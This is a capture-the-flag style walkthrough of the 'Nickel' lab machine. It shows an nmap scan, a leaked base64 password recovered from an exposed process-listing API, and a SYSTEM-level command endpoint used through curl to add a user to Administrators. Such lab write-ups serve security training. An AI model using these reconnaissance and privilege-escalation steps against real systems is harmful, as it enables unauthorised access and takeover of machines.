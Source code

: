 # Nickel

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.99     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:39 +08
Nmap scan report for 192.168.240.99
Host is up (0.17s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

FTP doesn't accept anonymous logins and RDP is open for this machine.&#x20;

### Web Enumeration -> User Creds

Port 80 was weird:

<figure><img src="../../../.gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

Port 8089 was slightly weirder:&#x20;

<figure><img src="../../../.gitbook/assets/image (1057).png" alt=""><figcaption></figcaption></figure>

Clicking on any of these would send requests to an IP address on port 33333:

<figure><img src="../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Meanwhile on port 33333, we needed a token of some sorts:

<figure><img src="../../../.gitbook/assets/image (1915).png" alt=""><figcaption></figcaption></figure>

And this is all the information we have. I experimented with sending POST requests instead of GET requests, and it actually returned something from port 33333.&#x20;

<figure><img src="../../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

This was different from the Not Found errors. I changed around the directory it sent requests to, and the `list-running-procs` returned something interesting:

<figure><img src="../../../.gitbook/assets/image (2061).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see this:

```
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
              
$ echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d                                
NowiseSloopTheory139
```

This was a password for a user `ariah`, which works:

<figure><img src="../../../.gitbook/assets/image (3357).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### FTP PDF -> Admin Shell

There was a `C:\ftp` directory that looked interesting:

```
 Directory of C:\ftp

09/01/2020  12:38 PM    <DIR>          .
09/01/2020  12:38 PM    <DIR>          ..
09/01/2020  11:02 AM            46,235 Infrastructure.pdf
```

We can transfer this back to our machine via `smbserver.py` and then view it.

<figure><img src="../../../.gitbook/assets/image (2535).png" alt=""><figcaption></figcaption></figure>

There was a temporary command point, and I enumerated it from the machine:

```
ariah@NICKEL C:\ftp>curl http://nickel/?whoami
<!doctype html><html><body>dev-api started at 2023-02-17T09:16:22

        <pre>nt authority\system
</pre>
</body></html>
```

It seems that we have a SYSTEM shell with this command endpoint. What we can do is just add `ariah` to the Administrators group.&#x20;

```
ariah@NICKEL C:\ftp>curl http://nickel/?net%20localgroup%20administrators%20ariah%20/add     
<!doctype html><html><body>dev-api started at 2023-02-17T09:16:22

        <pre>The command completed successfully.

</pre>
</body></html>

ariah@NICKEL C:\ftp>net user ariah
User name                    ariah
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/1/2020 12:38:26 PM
Password expires             Never
Password changeable          9/1/2020 12:38:26 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/6/2023 11:56:18 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

Then, we can relogin and view the flag:

<figure><img src="../../../.gitbook/assets/image (2605).png" alt=""><figcaption></figcaption></figure>

Rooted!
